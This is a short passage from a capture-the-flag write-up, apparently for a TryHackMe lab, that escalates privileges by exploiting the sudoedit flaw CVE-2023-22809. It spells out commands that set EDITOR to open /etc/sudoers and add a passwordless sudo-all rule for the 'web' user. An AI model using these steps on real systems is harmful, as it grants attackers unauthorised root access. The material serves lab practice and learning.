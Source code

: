 ### SUDOEDIT VERSION

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241106162300.png)

For this version, we found [CVE-2023-22809](https://access.redhat.com/security/cve/cve-2023-22809), let's exploit it and escalate our privileges:

#### POC


For this, we need to do the following:

```ad-hint

# STEP BY STEP

1. export EDITOR="nano -- /etc/sudoers"
2. sudo sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
3. web ALL=(ALL) NOPASSWD: ALL
![](gitbook/cybersecurity/images/Pasted%252520image%25252020241106162520.png)

If we did everything correctly, we are now able to run sudo as web in everything:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241106162632.png)

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241106162646.png)


```

And just like that CTF is done

#### FLAGS


![](gitbook/cybersecurity/images/Pasted%252520image%25252020241106164116.png)

Gg!